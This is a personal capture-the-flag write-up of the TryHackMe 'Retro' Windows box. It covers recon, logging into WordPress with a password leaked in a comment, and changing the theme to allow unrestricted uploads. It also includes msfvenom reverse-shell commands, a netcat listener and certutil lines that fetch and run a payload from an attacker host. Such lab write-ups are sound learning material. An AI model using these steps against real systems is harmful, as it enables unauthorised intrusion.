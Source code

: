 ## TryHackMe - Retro
> Completed 2nd December  2022.

An easier box (rated hard) to to get me back into pace after a long break.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- nmap
- Gobuster
- Msfvenom
- Metasploit

---
### Methodology
#### Objectives/Flags
1. What is the hidden directory which the website lives on?
2. user.txt
3. root.txt

---
#### Reconnaissance
Started off by running an `nmap` scan of the target host.
```bash
nmap -T4 -sV <TargetIP>
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We can see a http webserver running along with a terminal service which is Windows RDP. We can determine from these services that the machine hosts a Windows operating system.

By visiting the IP address on a web browser, we don't find an accessible page. I start to utilise `Gobuster`.
```bash
gobuster dir --url http://<TargetIP>/ -w <Wordlist> > <Output.txt> -t 100 --timeout 20s
```
From my first attempt at finding a directory, there was no luck based on the wordlist I had originally used which is my go-to directory wordlist `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/). Out of curiosity I appended 'retro' to the end of the URL which landed me on the target's homepage. This was kind of cheating as I knew the name of the box however in future, if I was to have run a scan for directories using an English dictionary, I would have been successful at finding the homepage. After rerunning `Gobuster` on the homepage, I found plenty of hits.

The website is a wordpress based and has article content created by the user 'Wade'. Immediately I went to work trying to XSS the comments box of one of the articles. I spent some time going down a rabbit hole of trying to bypass the filter that the page uses however after giving up and continuing my reconnaissance I found some data that would prove to be useful.

```
http://<TargetIP>/retro/index.php/2019/12/09/ready-player-one/
  I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down.
  
  Leaving myself a note here just in case I forget how to spell it: parzival
```

The website article and comment referenced to the main character of Ready-player-one, Wade Parzival. With this information I attempted to log into the Wordpress admin console.
```
http://10.10.232.64/retro/wp-admin/
  username: wade
  password: parzival
```
With that, I logged in successfully. 

#### Weaponization 
N/A

#### Delivery
Based on previous boxes like SimpleCTF, I jumped over the the media upload page where I had planned to upload a reverse shell. It turned out that file formats were filtered, and more work was needed before I proceed. I spent some time investigating the site and went to google with the filter error and Wordpress version.
```
Wordpress 5.2.1 Sorry, this file type is not permitted for security reasons. 
```
After some research it was suggested that the site's php files could be modified to allow for restricted filetypes by using the following php snippet.
```php
define( 'ALLOW_UNFILTERED_UPLOADS', true );
```
This was achieved by access the WordPress theme editor and inserting the code at the very end
```
http://<TargetIP>/retro/wp-admin/theme-editor.php?file=functions.php&theme=90s-retro
```
With the .php udated I could now upload restricted file types. I got to work preparing a php reverse shell as I knew the webserver would be able to serve this.
```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
The file was uploaded, and the console provided a URL at which the file could be accessed. A listener was readied before I ran the code.
```bash
nc -nlvp 1234
```

#### Exploitation
When I accessed the URL to fire of the shell, I established a foothold into the target host's web service account.
```
http://<TargetIP>/retro/wp-content/uploads/2022/12/shell.php
```
```bash
whoami
  nt authority\iusr
```
I was ready to move onto the next phase.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
I kept my eye out for clues while in search of loot
```
more index.php
<?php
// Silence is golden
```
```bash
dir C:/Users
12/08/2019  11:10 PM    <DIR>          Administrator
09/12/2016  03:37 AM    <DIR>          Public
12/08/2019  04:33 PM    <DIR>          Wade
```
The Wade and Administrator user files weren't accessible from the service account. I needed to escalate my privileges. I tried to infiltrate WinPeas.bat into the target host using `certutil` however the shell would hang when trying to run the .bat file.
```bash
certutil.exe -urlcache -f http:/<TargetIP>:4443/vuln-scan/winPEAS.bat win.bat
  win.bat
```
At this point I figured a meterpreter shell was going to be more stable, so I prepped a new shell and listener.
```bash
msdfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackIP> LPORT=1235 -f exe -o meterpreter-shell.exe
```
Using the existing shell I ran the certutil command learned from previous lab to infiltrate the shell file onto the target.
```bash
certutil.exe -urlcache -f http://10.4.1.220:4443/windows-tools/rshell/meterpreter-shell.exe mshell.exe
mshell.exe
```
The shell ran successfully, and I was ready to start looting data.
```bash
cd C:\Users\Wade\Desktop
cat user.txt.txt
  {flag}
cd C:\Users\Administrator\Desktop

cat root.txt.txt
  {flag}
```

---
### After-action
#### What I've learned
I need to try more word listing techniques attempting to fuzz web directories.

#### What I would've done differently
N/A